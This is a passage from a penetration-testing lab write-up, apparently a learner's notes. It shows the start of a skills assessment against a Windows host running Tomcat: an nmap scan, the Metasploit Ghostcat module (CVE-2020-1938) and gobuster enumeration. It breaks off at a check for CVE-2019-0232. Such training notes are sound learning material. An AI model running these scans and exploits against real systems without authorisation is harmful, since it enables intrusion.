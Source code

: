     # we can use dnSpy for debugging and .NET assembly editing
    # to view source code of DLL file
    ```

## Skills Assessment

* Skills Assessment I:

  * Scan given host:

    ```sh
    nmap -T4 -p- -A -Pn -v 10.129.201.89
    ```
  
  * We can see the Windows server is running ```Apache Tomcat/Coyote JSP engine 1.1``` on port 8080; navigating to '/docs' shows it is running Tomcat version 9.0.0.M1

  * We are not able to access the manager app at '/manager/html' or the host manager at 'host_manager/html' as we get the HTTP 404 error; need to enumerate further

  * Now, this version is vulnerable to [Ghostcat exploit CVE-2020-1938](https://www.exploit-db.com/exploits/49039) - we can try checking for any clues:

    ```sh
    msfconsole -q

    search ghostcat

    use 0
    # auxiliary/admin/http/tomcat_ghostcat

    options

    set RHOSTS 10.129.201.89

    run
    # by default, it reads the file /WEB-INF/web.xml
    # nothing interesting found
    ```
  
  * Directory enumeration on port 8080 to search for other endpoints:

    ```sh
    gobuster dir -u http://10.129.201.89:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
    ```
  
  * This version of Apache can be vulnerable to [CVE-2019-0232](https://github.com/setrus/CVE-2019-0232) - we need to check if any batch files are present in the '/cgi' or '/cgi-bin' directory:
